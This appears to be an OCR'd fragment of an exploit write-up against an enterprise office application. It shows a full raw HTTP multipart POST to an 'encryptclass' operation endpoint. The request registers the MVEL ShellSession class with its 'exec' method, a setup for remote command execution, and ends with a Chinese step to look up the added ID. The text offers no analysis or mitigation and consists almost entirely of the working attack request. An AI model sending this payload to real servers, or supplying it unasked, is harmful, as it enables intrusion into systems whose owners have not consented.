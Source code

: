 
```
POST /interface/outter/outter_encryptclassOperation.jsp?a=1.swf HTTP/1.1
Host: xxxx:xxx
If-None-Match: &#34;6evu6PUo/Cz&#34;
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
If-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMT
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVnIIu
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc


------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name=&#34;operation&#34;

add
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name=&#34;encryptname&#34;

ttttaaa
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name=&#34;encryptclass&#34;

org.mvel2.sh.ShellSession
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name=&#34;encryptmethod&#34;

exec
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name=&#34;decryptmethod&#34;

exec
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name=&#34;isdialog&#34;

0
------WebKitFormBoundaryVnIIugCdViAmEyK3
Content-Disposition: form-data; name=&#34;x&#34;; filename=&#34;x&#34;

x
------WebKitFormBoundaryVnIIugCdViAmEyK3--
```

  
###   
### 查看添加的ID  
  